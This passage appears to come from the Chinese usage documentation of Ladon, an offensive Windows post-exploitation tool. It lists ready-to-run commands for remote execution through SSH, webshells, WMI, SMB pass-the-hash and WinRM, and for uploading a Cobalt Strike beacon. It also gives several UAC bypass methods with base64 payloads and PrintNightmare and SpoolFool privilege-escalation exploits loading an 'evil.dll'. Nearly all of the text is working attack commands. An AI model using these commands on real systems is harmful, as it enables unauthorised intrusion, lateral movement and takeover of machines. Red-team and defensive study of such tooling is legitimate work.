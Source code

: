 ```
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##### 103 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd
Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

##### 104 WebShell远程执行命令（非交互式）
```Bash
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami

##### 105 135端口 WmiExec2远程执行命令 （非交互式）支持文件上传
Usage:
Ladon WmiExec2 host user pass cmd whoami
Ladon WmiExec2 pth host cmd whoami
Base64Cmd for Cobalt Strike
Ladon WmiExec2 host user pass b64cmd dwBoAG8AYQBtAGkA
Ladon WmiExec2 host user pass b64cmd dwBoAG8AYQBtAGkA
Upload:
Ladon WmiExec2 host user pass upload beacon.exe ceacon.exe
Ladon WmiExec2 pth host upload beacon.exe ceacon.exe

##### 106 445端口 SmbExec Ntlm-Hash非交互式远程执行命令(无回显)
Ladon SmbExec 192.168.1.8 k8gege k8gege520 cmd whoami
Ladon SmbExec 192.168.1.8 k8gege k8gege520 b64cmd d2hvYW1p

##### 107 WinrmExec远程执行命令无回显（支持System权限）
Ladon WinrmExec 192.168.1.8 5985 k8gege.org Administrator K8gege520 calc.exe


### 提权降权
##### 108 whoami查看当前用户权限以及特权
Ladon whoami

##### 109 6种白名单BypassUAC(8.0后)Win7-Win10
用法: Ladon BypassUAC Method Base64Cmd
Ladon BypassUAC eventvwr Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC fodhelper Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC computerdefaults Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC sdclt Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC slui Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC dikcleanup Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==

##### 110 BypassUac2 绕过UAC执行,支持Win7-Win10
Ladon BypassUac2 c:\1.exe
Ladon BypassUac2 c:\1.bat

##### 111 PrintNightmare (CVE-2021-1675 | CVE-2021-34527)打印机漏洞提权EXP
Ladon PrintNightmare c:\evil.dll
Ladon CVE-2021-1675 c:\evil.dll

##### 112 CVE-2022-21999 SpoolFool打印机漏洞提权EXP
Ladon SpoolFool poc.dll
Ladon CVE-2022-21999 poc.dll

##### 113 GetSystem 提权System权限执行CMD
Ladon GetSystem cmd.exe

##### 114 复制令牌执行CMD(如system权限降权exploer当前用户)
Ladon GetSystem cmd.exe explorer
```